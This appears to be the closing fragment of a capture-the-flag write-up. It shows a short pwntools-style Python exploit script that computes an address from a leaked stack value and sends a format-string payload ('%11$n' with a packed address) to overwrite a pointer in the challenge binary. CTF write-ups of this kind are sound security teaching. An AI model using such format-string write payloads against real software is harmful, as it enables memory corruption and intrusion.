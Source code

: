 ```python
get_turn()

# rewrite read_boss offset to read the right string
read_boss_stack = leak_stack + 0x26b0 - 0x4  # 0x80
vuln(b'a%11$naa' + p64(read_boss_stack))

P.interactive()

```


<center>~ THE END ~ </center>


